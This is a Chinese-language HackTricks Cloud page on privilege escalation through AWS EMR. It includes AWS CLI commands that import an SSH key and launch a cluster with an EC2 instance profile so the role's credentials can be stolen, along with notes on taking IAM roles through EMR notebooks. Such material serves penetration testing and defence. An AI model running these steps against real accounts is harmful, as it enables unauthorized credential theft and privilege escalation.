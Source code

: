 # AWS - EMR特权升级

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## EMR

有关EMR的更多**信息**请参见：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以**运行一个新的EMR集群并附加EC2角色**，然后尝试窃取其凭据。\
请注意，为了做到这一点，您需要**知道在账户中导入的某个ssh私钥**，或者导入一个私钥，并且能够**打开主节点的22端口**（您可以使用`--ec2-attributes`中的`EmrManagedMasterSecurityGroup`和/或`ServiceAccessSecurityGroup`属性来实现这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
请注意，在`--service-role`中指定了**EMR角色**，在`--ec2-attributes`中指定了**ec2角色**，并将其放在`InstanceProfile`中。然而，这种技术只允许窃取EC2角色凭证（因为您将通过ssh连接），而不是EMR IAM角色。

**潜在影响：**特权升级到指定的EC2服务角色。

### `elasticmapreduce:CreateEditor`，`iam:ListRoles`，`elasticmapreduce:ListClusters`，`iam:PassRole`，`elasticmapreduce:DescribeEditor`，`elasticmapreduce:OpenEditorInConsole`

具有这些权限，攻击者可以进入**AWS控制台**，创建一个笔记本并访问它以窃取IAM角色。

{% hint style="danger" %}
即使在我的测试中将IAM角色附加到笔记本实例，我注意到我仍然能够窃取AWS托管的凭证，而不是与IAM角色相关的凭证。
{% endhint %}

**潜在影响：**特权升级到AWS托管角色arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅凭借此权限，攻击者就能够访问**Jupyter Notebook并窃取与之关联的IAM角色**。\
笔记本的URL为`https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
即使在我的测试中将IAM角色附加到笔记本实例，我注意到我仍然能够窃取AWS托管的凭证，而不是与IAM角色相关的凭证。
{% endhint %}

**潜在影响：**特权升级到AWS托管角色arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的动态 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
